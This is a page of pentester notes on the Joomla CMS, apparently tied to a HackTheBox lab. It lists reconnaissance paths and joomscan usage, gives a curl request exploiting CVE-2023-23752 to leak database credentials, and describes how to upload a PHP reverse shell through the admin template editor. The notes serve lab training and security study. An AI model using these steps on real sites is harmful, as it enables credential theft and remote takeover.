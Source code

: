 # Joomla CMS

<div class="row row-cols-lg-2"><div>

[Joomla](https://www.joomla.org/) is an open-source Content Management System (CMS) written in PHP. The version 5 is currently in development (2024).

* [GitHub](https://github.com/joomla/joomla-cms) <small>(4.4k ⭐)</small>
* [Documentation](https://github.com/joomla/joomla-cms) <small>(⛪)</small>

The admin page default path is: `/administrator`.
</div><div>
</div></div>

<hr class="sep-both">

## Joomla Pentester Notes ☠️

[![devvortex](../../../../../cybersecurity/_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

<div class="row row-cols-lg-2"><div>

The `/robots.txt` file may contain the list of interesting paths. If the website was not properly configured, `/README.txt` may be accessible.

* OWASP initiated the development of [joomscan](https://github.com/OWASP/joomscan) <small>(1.0k ⭐)</small>

```ps
$ sudo apt install joomscan
$ joomscan -u URL
[+] Detecting Joomla Version
[++] Joomla x.y.z

<SNIP... Nothing of interest>
```

* [droopescan](https://github.com/SamJoan/droopescan) <small>(1.1k ⭐, 2021 ☠️, deprecated)</small>
</div><div>

* [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752): Exposed credentials `[4.0.0, 4.2.7]`. See also: [PoC (ruby)](https://github.com/Acceis/exploit-CVE-2023-23752) <small>(0.05k ⭐)</small>.

```ps
$ curl -v URL/api/index.php/v1/config/application?public=true -v
"dbtype": "mysqli",
"host": "localhost",
"user": "xxx",
"password": "yyy"
"db": "joomla",
```

* When logged as administrator, you can upload a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):

Go in System > Site Templates > Click on a template.
Create a new file or upload one if you can. You can copy-paste a shell:

```ps
$ cat revshell.php | xclip -selection clipboard
```

The file path is shown in the editor, while, for reference, mine was at `/templates/<site_name>/revshell.php`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/images`, `/home`, `/media`, `/templates`, `/modules`
* `/plugins`, `/includes`, `/language`, `/components`, `/api`
* `/cache`, `/libraries`, `/tmp`, `/layouts`, `/administrator`
* `/media/templates/site/<name>/assets/`
</div><div>
</div></div>